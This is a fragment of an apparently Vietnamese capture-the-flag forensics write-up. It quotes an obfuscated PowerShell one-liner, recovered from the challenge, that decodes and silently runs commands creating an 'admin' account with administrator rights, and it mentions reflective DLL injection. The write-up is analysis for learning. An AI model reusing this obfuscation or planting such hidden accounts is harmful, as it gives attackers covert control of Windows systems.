 ```
powershell $PKjAU=  ") )'dd'+'a/ n'+'i'+'mda'+' sro'+'t'+'artsinimda'+' p'+'uorglacol'+' te'+'n;d'+'d'+'a/ 3r'+'uce5-r3'+'pu'+'5'+' nimda resu '+'te'+'n'(( )'x'+]31[dIlLehs$+]1[diLLehs$ (."; .( $Env:CoMsPeC[4,24,25]-JOIn'')(-join (  gi  vaRiaBlE:pKjAU).valUe[-1 .. - ( (  gi  vaRiaBlE:pKjAU).valUe.leNgth) ] )
Reflectively loads a Windows PE file (DLL/EXE) in to the powershell process, or reflectively injects a DLL in to a remote process.

```
- Bằng cách loại bỏ ký tự `'+'` và đảo 20 ký tự đầu sẽ ta sẽ được 1 script khác nữa như sau.
![1720990202585](image/writeup/1720990202585.png)
- Vậy mật khẩu mới của user là `5up3r-5ecur3`.

*`FLAG: DUCTF{monkey.doc.ps1_invoke-reflectivepeinjection_emu.dll-kiwi.dll_5up3r-5ecur3}`*